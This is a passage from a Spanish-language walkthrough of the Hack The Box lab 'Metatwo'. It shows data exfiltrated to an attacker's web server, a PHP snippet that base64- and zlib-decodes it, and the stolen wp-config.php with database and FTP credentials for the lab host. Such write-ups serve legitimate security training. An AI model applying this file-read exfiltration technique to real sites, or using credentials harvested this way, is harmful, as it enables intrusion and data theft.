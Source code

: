 Y según lo subamos recibiremos en el servidor web atacante la data codificada en lo que parece ser base64.

![](/assets/images/HTB/Metatwo-HackTheBox/php1.webp)

Con un pequeño script en php podemos decodear la data:

```php
<?php
echo zlib_decode(base64_decode('data'));
?>
```

De forma que quedaría así:

![](/assets/images/HTB/Metatwo-HackTheBox/data.webp)

Lo decodeamos y ahí tenemos el archivo wp_config.php.

```php
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
```